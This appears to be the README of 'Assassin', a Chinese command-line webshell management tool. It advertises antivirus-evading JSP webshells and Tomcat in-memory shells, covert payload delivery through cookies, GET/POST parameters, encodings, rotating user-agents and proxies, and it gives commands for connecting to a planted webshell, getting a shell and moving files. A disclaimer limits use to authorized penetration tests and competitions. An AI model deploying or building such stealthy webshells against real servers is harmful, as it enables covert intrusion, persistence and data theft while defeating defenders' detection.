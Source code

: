 # Assassin

>Assassin是一款精简的基于命令行的webshell管理工具，它有着多种payload发送方式和编码方式，以及精简的payload代码，使得它成为隐蔽的暗杀者，难以被很好的防御。

自用工具开源互相学习，生成的webshell能够过目前主流杀毒软件(36x、腾x等，目前能过，后面可能很快就不行了，需要稍微变换webshell代码以再次免杀) 连接后交互的流量特征几乎没有，具体payload发送方式均可自定义。由于个人精力有限，~~因为懒而且菜~~，服务端暂时仅支持Java。

**声明：主要面向网络安全人员已授权的合法渗透或学生AWD等比赛使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担**

## 特点

**[1]** 生成的webshell能过主流杀软 36x、腾x等等(以后可能就不行了，需要稍加更改代码，webshell模板可以自定义修改)

**[2]** webshell仅1kb大小，客户端与服务端完成连接后发送payload十分精简

**[3]** payload能够以get、post、cookie、mixed四种方式发送，可动态修改，流量迷惑性较强

**[4]** 客户端与服务端交互流量支持多种编码方式，可动态修改

**[5]** payload发送的参数名以及数量均可自定义，支持随机ip代理和user-agent

## 软件截图

软件类似于MSF的操作模式

![](assets/2021-11-23-14-26-25.png)

![](assets/2021-11-23-16-26-42.png)

![](assets/2021-11-23-16-47-25.png)


## 发送的payload流量示例

![](assets/2021-11-23-18-26-04.png)

cookie：
![](assets/2021-11-23-16-51-06.png)

post：
![](assets/2021-11-23-17-08-53.png)

mixed：
![](assets/2021-11-23-17-12-14.png)

get：
![](assets/2021-11-23-17-18-56.png)

除了cookie方式，get、post、mixed可以在已经建立连接后动态修改发送方式，无需更改服务端

请求编码：
1. base64
2. base36
3. hex

响应编码：
1. base64
2. raw
3. base36
4. hex

其中响应的编码方式可以动态修改

## 使用教程

### 适用版本

服务端：jre 1.5及以上

客户端：jdk 1.8及以上

### 配置文件

```json lines
{
  "paramNames": ["user", "file", "id", "eid", "wd", "ie", "oq", "name", "son"],
  // get、post、mixed请求参数名的随机池
  "cookieNames": ["fid", "uuid", "eid", "home", "ief", "fl", "oop"],
  // cookie请求参数名的随机池
  "headers":{
    "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "Accept-Encoding":"gzip, deflate, br",
    "Accept-Language":"Accept-Language: zh-CN,zh;q=0.9",
    "Upgrade-Insecure-Requests": "1"
  },
  // http头部
  "partNum": 3,
  // payload首次发送的分块数量
  "argNum": 5,
  // 每次请求的参数个数，不能超过paramNames或者cookieNames的参数个数
  "startRandomUserAgent": false,
  // 是否随机useragent
  "startIpAgents": false,
  // 是否开启ip池代理模式
  "startColor": true
  // 是否启用命令行颜色
}
```

随机useragent采用./useragents.txt里的useragent，开启后每次请求都会更换useragent，一般配合ip代理使用，关闭时是每次用session命令启动一个webshell会话一个useragent。

ip代理池使用./ipagents.txt，格式为```ip:posr;username:password```，不需要认证的话```ip:port```就可以了，开启后每次请求会从中选择一个代理。

**Tip：windows用户启动后乱码请关闭"startColor"，或者使用Windows Terminal启动**

### 帮助信息

所有命令使用都比较简单，可以通过help命令查看参数

![](assets/2021-11-23-19-52-59.png)

```help [command]``` 查看具体命令的帮助

![](assets/2021-11-23-19-53-56.png)

### 实例

用startup.bat或startup.sh启动

```bash
new java 123 cookie
# 生成密码为123 发送方式为cookie的普通jsp木马
new java pass post reqEncode=base36 tamper=tomcat9_filter
# 生成密码为pass 发送方式为post 请求用base36编码的tomcat9 filter内存马 
```
**Tips：add和new命令参数比较多，中括号包裹的可选参数还可以用key=value的方式赋值**

之后会弹出窗口选择保存位置

![](assets/2021-11-23-20-00-26.png)

将webshell上到目标服务器

```bash
add http://192.168.48.130:8080/1.jsp 123 java method=cookie resEncode=base36
# 添加webshell 密码123 java马 cookie传参 请求编码默认base64 响应编码base36
```
```show```查看ID号
![](assets/2021-11-23-20-06-56.png)

```session 1```连接webshell

![](assets/2021-11-23-20-08-19.png)

看到提示符发生变化就可以执行webshell controller commands的命令了！
```bash
Assassin|java >getshell
Assassin|java|C:\apache-tomcat-9.0.54\bin >dir
```

上传文件

```bash
upload # 没参数默认传到当前目录
```

![](assets/2021-11-23-20-25-16.png)

选择文件即可上传

```download ./test.txt```同理

![](assets/2021-11-23-20-27-15.png)

![](assets/2021-11-23-20-28-04.png)

### 编写webshell模板tamper

![](assets/2021-11-23-20-14-14.png)

第一个部分用{@key}填充，代表 webshell密码

第二个部分用{@getvalue}填充，代表 获取请求payload的代码

第三个部分用{@decode}填充，代表 解码代码

模板如下：

```java
String k="{@key}";// aes密钥 123456 md5的前16位
String r = ""; //密文payload存放位置，这个参数名必须为r，其他的无所谓
// 取密文
{@getvalue}
byte[] cText = {@decode};
```

其他主要逻辑不改，就可以成功连接。

**实例**

请看webshell/java/下的tomcat的filter内存马模板







